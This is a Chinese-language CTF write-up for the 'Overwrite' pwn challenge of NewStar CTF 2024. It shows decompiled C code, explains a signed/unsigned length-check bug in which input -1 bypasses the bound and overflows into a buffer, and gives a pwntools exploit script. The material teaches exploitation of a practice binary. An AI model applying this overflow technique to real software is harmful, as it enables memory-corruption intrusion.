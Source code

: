 ```yaml
---
title: WriteUp
titleTemplate: ':title - NewStar CTF 2024'
---
```


# Overwrite

IDA反编译查看源代码

```c
unsigned __int64 func()
{
  int nbytes; // [rsp+Ch] [rbp-84h] BYREF
  size_t nbytes_4; // [rsp+10h] [rbp-80h] BYREF
  char nptr[72]; // [rsp+40h] [rbp-50h] BYREF
  unsigned __int64 v4; // [rsp+88h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf("pls input the length you want to readin: ");
  __isoc99_scanf("%d", &nbytes);
  if ( nbytes > 48 )
    exit(0);
  printf("pls input want you want to say: ");
  read(0, &nbytes_4, (unsigned int)nbytes);
  if ( atoi(nptr) <= 114514 )
  {
    puts("bad ,your wallet is empty");
  }
  else
  {
    puts("oh you have the money to get flag");
    getflag();
  }
  return v4 - __readfsqword(0x28u);
}
```

在这个函数中，我们可以输入一个数值 `nbytes`，然后读取相应长度的数据到 `nbytes_4` 中。如果 `nptr` 中的字符串被转换为数字且大于 `114514`，程序会打印 `flag`，否则会输出钱包空的信息。  
漏洞分析：

1. `nptr` 和 `nbytes_4` 之间的偏移是 0x30。如果输入大于 0x30 的正整数，程序将会通过 `exit()` 退出。
2. 观察到，`read()` 函数中使用的是 `unsigned int nbytes`，但在输入校验时 `nbytes` 是 `int` 类型，进行了有符号比较。这里产生了漏洞。

```c
read(0, &nbytes_4, (unsigned int)nbytes);
```

例如，`-1` 的 16 进制表示是 `0xffffffff`，对于有符号整数来说，这是一个负数；但在无符号整数中，它代表一个非常大的正整数。因此，利用这一点，输入一个负数值，可以绕过前面的大小检查，将后续输入的数据覆盖到 `nptr`，从而完成利用。

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
# p = process('./pwn')

p = remote('ip', port)
payload = b'a'*0x30 + b'114515'

p.sendlineafter(b': ', b'-1')


p.sendafter(b': ', payload)

p.interactive()
```
